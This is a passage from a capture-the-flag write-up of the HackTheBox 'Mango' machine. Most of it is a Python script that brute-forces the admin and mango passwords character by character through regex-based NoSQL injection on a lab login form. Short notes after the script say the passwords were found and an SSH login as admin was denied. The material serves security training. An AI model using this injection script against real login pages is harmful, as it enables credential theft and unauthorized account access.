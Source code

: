 ![image.png](/images/mango/image12.png)
We got the valid character for the password of 2 user. Now let’s update the code to get the actual password.

```python
from requests import post
from string import printable

url = 'http://staging-order.mango.htb/'

admin_pass = ['0', '2', '3', '9', 'c', 't', 'B', 'K', 'S', '!', '#', '\\$', '\\.', '>', '\\\\', '\\^', '\\|']
mango_pass = ['3', '5', '8', 'f', 'h', 'm', 'H', 'K', 'R', 'U', 'X', '\\$', '\\.', '\\\\', ']', '\\^', '{', '\\|', '~']

def sendPayload(user, word):
    valid = admin_pass if user == 'admin' else mango_pass
    for char in valid:
        regex = '^{}{}.*'.format(word, char)
        data = {
            'username': user,
            'password[$regex]': regex,
            'login': 'login'
        }
        response = post(url, data=data, allow_redirects=False)
        if response.status_code == 302:
            return char
    return None

def getUser():
    for user in ['admin', 'mango']:
        password = ''
        while True:
            char = sendPayload(user, password)
            if char is not None:
                password += char
            else:
                print("Password for {} found: {}".format(user, password))
                break

if __name__ == '__main__':
    getUser()
```

The code uses valid character sets for both users and reveals their password character by
character.

![image.png](/images/mango/image13.png)
Now we got the users password. now lets login to ssh.

![image.png](/images/mango/image14.png)
When logging in to ssh as admin, it says permission denied.
